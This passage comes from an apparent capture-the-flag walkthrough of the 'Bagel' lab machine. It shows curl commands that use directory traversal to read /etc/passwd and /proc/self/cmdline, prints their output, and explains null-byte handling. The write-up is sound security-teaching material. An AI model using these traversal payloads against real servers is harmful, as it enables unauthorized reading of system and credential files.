     :: Progress: [4989/4989] :: Job [1/1] :: 224 req/sec :: Duration: [0:00:23] :: Errors: 0 ::



Neither find anything.

## Shell as phil

### Get Flask Source

#### Identify

I noted above the URL structure that seems to be loading a static HTML
page on the main site: `http://bagel.htb:8000/?page=index.md`. My
guess is that the server has a main page that handles things typically
like a menu bar, and then loads the child page into the body.

I'll try a basic file read / directory traversal attack to see if I can
read other files on the filesystem:



    oxdf@hacky$ curl http://bagel.htb:8000/?page=../../../../etc/passwd
    root:x:0:0:root:/root:/bin/bash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    adm:x:3:4:adm:/var/adm:/sbin/nologin
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
    ...[snip]...



That's a successful file read / directory traversal (though not an LFI,
please don't call it that).

#### Process Information

I'll use this vulnerability to get information about the running
process. Each process has a folder in `/proc/[pid]`, and `/proc/self` is
a special folder that points to the current pid.

Inside each folder, there's a bunch of files and symlinks. `cmdline`
shows the running command line of the process:



    oxdf@hacky$ curl http://bagel.htb:8000/?page=../../../../proc/self/cmdline
    Warning: Binary output can mess up your terminal. Use "--output -" to tell 
    Warning: curl to output it to your terminal anyway, or consider "--output 
    Warning: <FILE>" to save to a file.
    oxdf@hacky$ curl -o- http://bagel.htb:8000/?page=../../../../proc/self/cmdline
    python3/home/developer/app/app.py



This file uses null bytes to terminate the command string and the
argument string, which makes the output "binary" and `curl` complains.
Adding `-o-` is typically good enough to say "print the result to the
terminal anyway". There is an invisible null byte between `python3` and
`/home`. If I want to be detailed, I can use `tr` to replace the nulls
with spaces:
